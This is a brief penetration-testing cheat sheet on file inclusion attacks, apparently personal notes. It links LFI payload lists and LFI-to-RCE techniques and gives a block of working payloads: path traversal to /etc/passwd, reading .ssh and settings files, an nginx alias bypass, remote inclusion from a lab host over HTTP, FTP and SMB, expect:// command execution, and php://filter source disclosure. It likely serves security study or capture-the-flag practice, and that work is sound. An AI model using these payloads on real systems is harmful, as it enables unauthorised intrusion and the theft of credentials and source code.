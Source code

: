 


#### seclists
- bypass filtering payloads: LFI-Jhaddix.txt
- [hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- read `/.ssh` files
- Universal [LFI2RCE](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters) using php filtres, [chain generator](https://github.com/synacktiv/php_filter_chain_generator) 
- [LFI2RCE](https://hackmd.io/@chuong/pearcmd)
##### payloads
```bash
# break parser logic!
/etc/passwd?/../../tmp/file
# breaking ngix logic! # 
location /static { alias /home/app/static/; } # conf example
/home/app/static../settings.py
# rfi
http://10.10.14.5/file
ftp://10.10.14.5/file
\\10.10.14.7\share ## smb
# rce
expect://ls
# b64 filter
php://filter/convert.base64-encode/resource=

# random payloads
..%252f..%252f..%252fetc/passwd

```
